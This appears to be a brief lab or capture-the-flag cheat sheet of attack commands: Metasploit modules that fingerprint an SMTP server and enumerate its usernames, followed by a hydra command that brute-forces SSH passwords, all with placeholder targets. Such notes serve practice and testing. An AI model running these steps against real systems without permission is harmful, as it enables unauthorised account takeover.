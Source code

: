 ```
sudo msfconsole
```

run metasploit.

```
use auxiliary/scanner/smtp/smtp_version
set RHOSTS <ip>
run
```

find smtp version.

```
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <ip>
set RPORT <port>
set USER_FILE <wordlist>
run
```

find existing usernames.

```
hydra -l <username> -P <wordlist> -vV <ip> ssh
```

brute force ssh access.